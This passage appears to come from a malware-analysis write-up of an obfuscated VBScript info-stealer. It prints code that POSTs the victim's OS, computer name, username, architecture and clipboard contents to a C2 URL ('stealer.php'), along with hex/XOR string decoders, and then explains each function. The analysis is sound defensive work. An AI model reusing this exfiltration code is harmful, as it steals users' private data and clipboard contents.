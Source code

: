 ```vb
End Sub
Sub iolo()
olo 5
End Sub
Sub dfg(os, computer, user, arch, clipboard, d2)
Dim xmlhttp, iop, data
data = "os=" & os & "&computer=" & computer & "&user=" & user & "&arch=" & arch & "&clipboard=" & clipboard & "&misc=" & d2
iop = "https://helixpewtersecretc2.ept/stealer.php"
Set xmlhttp = CreateObject("MSXML2.ServerXMLHTTP")
xmlhttp.open "POST", iop, False
xmlhttp.setRequestHeader "Content-Type", "application/x-www-form-iopencoded"
xmlhttp.send data
End Sub
Function hbr(juo, xorKey)
Dim i, yka, yty, keyByte
yka = ""
For i = 1 To Len(juo) Step 2
yty = CLng("&H" & Mid(juo, i, 2))
If (i Mod 4) = 1 Then
keyByte = (&H13)
Else
keyByte = (&H37)
End If
yty = yty Xor keyByte
yka = yka & Chr(yty)
Next
hbr = yka
End Function
Function utr(jui)
Dim i, fgg
fgg = ""
For i = 1 To Len(jui) Step 2
fgg = fgg & Chr(CLng("&H" & Mid(jui, i, 2)))
Next
utr = fgg
End Function
</script>
```

The script was clearly obfuscated, so it needed to be deobfuscated. We also knew that it was written in VBS.
However, we already saw the script had some interesting components.

#### Deobfuscating the VBA script
The script had a few different functions and subroutines that we can separate out.

- `dfs` function which gets data from the clipboard and then returns it.
- `olo` sub-routine runs for a specified duration in minutes and continually tries to bring a window titled "shh" to the foreground.
- `iolo` sub-routine that runs `olo 5`.
- `dfg` sub-routine that sends system information, including the operating system, computer name, username, architecture, clipboard contents, and additional data, to a remote server via an HTTP POST request (`hxxps[://]helixpewtersecretc2[.]ept/stealer[.]php`).
- `hbr` function takes a hexadecimal-encoded string, decodes it into bytes, applies an XOR operation with the key `0x1337`, and returns the resulting decoded string. 
- `utr` function takes a hexadecimal-encoded string and converts each byte to its ASCII equivalent
